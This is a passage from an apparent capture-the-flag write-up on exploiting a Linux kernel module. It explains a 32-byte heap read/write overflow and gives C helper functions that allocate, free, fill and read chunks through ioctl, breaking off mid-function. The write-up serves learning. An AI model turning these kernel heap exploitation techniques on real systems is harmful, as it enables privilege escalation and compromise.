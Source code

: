 ```C
struct heap {
  int size;
  char *buf;
}  // This is not accurate, it's here just for the explaination
```
If you pay close attention to the `heap.size + 32`, well considering how the `heap` structure here is, there's an extra 32 bytes added to it. This in turn, allowed us to write 32 bytes more than size of an allocated chunk, same as for read, we can read extra 32 bytes than the chunk's actual size.
So, conlcuding, we have **32** byte extra overflow for read/write. Now, the question arises, how exactly we interact with the service, to do so, I used `ioctl` to interact with it, the following functions I created:-

```C
struct message {
  unsigned int index;
  long size;
  char *buf;
};


void kmalloc(int fd, unsigned long idx, unsigned long size)
{
  struct message msg;
  msg.size = size;
  msg.index = idx;
  printf("[*] Allocating Chunk at: %ld of size: %ld\n", idx, size);
  if (ioctl(fd, 0x1000, &msg) == -1)
  {
   puts("Error!!");
   exit(1);
  }
}

void kfree(int fd, unsigned long idx)
{
 struct message msg;
 msg.index = idx;
 printf("[*] Free'ng index: %ld\n", idx);
 if (ioctl(fd, 0x1001, &msg) == -1)
 {
  puts("Error!!");
  exit(1);
 }
}

void fill(int fd, unsigned long idx, unsigned int size, char *ptr)
{
 struct message msg;
 msg.buf = ptr;
 msg.index = idx;
 msg.size = size;
 printf("[*] Filling Chunk at Index: %ld with %s\n", idx, ptr);
 if (ioctl(fd, 0x1002,  &msg) == -1)
 {
  puts("Error!!");
  exit(1);
 }
}


void get(int fd, unsigned long idx, unsigned long size, char *ptr)
{
 struct message msg;
 msg.index = idx;
```